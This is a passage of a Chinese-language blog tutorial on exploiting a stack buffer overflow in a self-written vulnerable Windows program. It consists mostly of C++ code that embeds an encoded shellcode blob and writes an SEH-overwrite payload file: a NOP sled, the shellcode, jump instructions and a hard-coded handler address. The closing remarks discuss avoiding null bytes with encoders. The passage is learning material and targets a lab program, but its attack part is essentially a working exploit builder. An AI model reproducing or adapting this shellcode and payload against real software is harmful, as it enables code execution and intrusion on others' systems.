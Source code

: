 ``` {.brush: .cpp;}
"\x71\xc4\x3e\x68\x52\x4e\x5f\xfb\xf8\x94\x9e\x17\x9a\x5f\xac\xac\xe8\x3a\xb0"
"\x33\x04\x31\xcc\xb8\xdb\xae\x45\xfa\xff\x32\x34\xc0\xb2\x43\x9f\x12\x3b\xb6"
"\x56\x58\x54\xb7\x26\x53\x49\x95\x5e\xf4\x6e\xe5\x61\x82\xd4\x1e\x26\xeb\x0e"
"\xfc\x2b\x93\xb3\x25\x99\x73\x45\xda\xe2\x7b\xd3\x60\x14\xec\x88\x06\x04\xad"
"\x38\xe4\x76\x03\xdd\x62\x03\x28\x78\x01\x63\x92\xa6\xef\xfa\xcd\xf1\x10\xa9"
"\x15\x77\x2c\x01\xad\x2f\x13\xec\x6d\xa8\x48\xca\xdf\x5f\x11\xed\x1f\x60\xba"
"\x21\xd9\xc7\x1b\x29\x7f\x97\x35\x90\x4e\xbc\x42\xbe\x94\x44\xda\xdd\xbd\x69"
"\x84\x01\x1e\x02\x5b\x33\x32\xb6\xcb\xdc\xe6\x16\x5b\x4a\xbf\x33\x0f\xe6\x0e"
"\x75\x47\xba\x54\x88\xd1\xa3\xa4\x40\x8b\x13\x94\x35\x1e\xac\xca\x87\x5e\x02"
"\x14\xb2\x56";
//NULL count: 0
   
int main() 
{
    string Next("\xEB\xF6\x90\x90");  // jmp short -0x08 # NOP x 2
    string Handler("\xCE\x19\x40\x00") ; // 0x004019CE
    string shellcode(code);
    string second_jumpcode("\xE9\xCF\xFE\xFF\xFF\x90\x90\x90"); //jmp -0x12c #NOP x 3
    string nops(1392 - shellcode.size() - second_jumpcode.size(), '\x90');
    ofstream fout(FILENAME, ios::binary);
    fout << nops << shellcode << second_jumpcode << Next << Handler;
}
```

使用Dev
C++編譯完成後開啟，將會在目錄底下生產一個Vulnerable001\_Excp\_Exploit.txt記事本，將此記事本丟給一開始我們寫的有BOF漏洞的程式做讀取結果如下：\

::: {.separator style="clear: both; text-align: center;"}
[![](http://3.bp.blogspot.com/-FAS4XFkYUp0/VV4--hqVXkI/AAAAAAAAGbk/qJNlrOi2EwA/s640/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2015-05-22%2B%25E4%25B8%258A%25E5%258D%25884.24.08.png){width="640"
height="418"}](http://3.bp.blogspot.com/-FAS4XFkYUp0/VV4--hqVXkI/AAAAAAAAGbk/qJNlrOi2EwA/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2015-05-22%2B%25E4%25B8%258A%25E5%258D%25884.24.08.png)
:::

\

後記
----

那份Shellcode跟Code是用自電子書原本的Code，Shellcode部分要避免Shellcode中用到0x00這個BYTE被Windows的文字處理當作\'\\x00\'結束語，必須使用編碼器之類替Shellcode上加上編碼器來避免有Bad
Char導致Shellcode無法完整被載入，但因為我不知道Windows下有啥好用的編碼器\...我也不知道怎麼裝Metasploit，就拿原版的來改啦！\
\
如果有研究的大神可以提供一下Plz \<(\_ \_)\>
